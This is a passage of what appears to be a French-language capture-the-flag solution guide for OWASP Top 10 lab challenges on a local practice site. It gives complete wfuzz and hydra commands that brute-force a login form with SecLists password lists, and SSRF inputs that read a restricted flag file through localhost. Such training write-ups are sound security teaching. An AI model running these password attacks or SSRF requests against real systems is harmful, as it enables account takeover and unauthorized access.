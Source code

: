 Pour les mots de passe nous pouvons utiliser tout d'abord le fichier 10-million-password-list-top-100.txt dans SecLists. Nous pouvons aussi utiliser rockyou.txt.

Nous avons :
```bash
wfuzz -z file,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -d "username=<USER>&password=FUZZ" http://localhost:8042/login.php
```

et avec hydra :
```bash
hydra -l SOLMAN_ADMIN -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -s 8042 localhost http-post-form "/login.php:username=^USER^&password=^PASS^:Mot de passe incorrect"
```

Nous obtenons le flag en trouvant le bon utilisateur et le bon mot de passe, ici il faut regarder le nombre de caractères que la page nous renvoie pour savoir si le mot de passe est bon ou non.

# Solution
## A08 - Manque d'intégrité des données et du logiciel

Repondez à la question pour obtenir le flag.

# Solution
## A09 - Carence des systèmes de contrôle et de journalisation

Repondez à la question pour obtenir le flag.

# Solution
## A10 - SSRF (Falsification de requête côté serveur)

Nous pouvons récuperer des pages Web depuis la page A10.php, nous pouvons voir que nous voulons accèder à un flag flag_ssrf.txt mais nous n'avons pas la permission. Nous pouvons donc essayer de récupérer le fichier flag_ssrf.txt via une SSRF. Nous allons donc récupérer le fichier comme ceci :
    
    ```bash
    http://127.0.0.1/flag_ssrf.txt
    http://localhost/flag_ssrf.txt
    ```

Nous obtenons le flag.

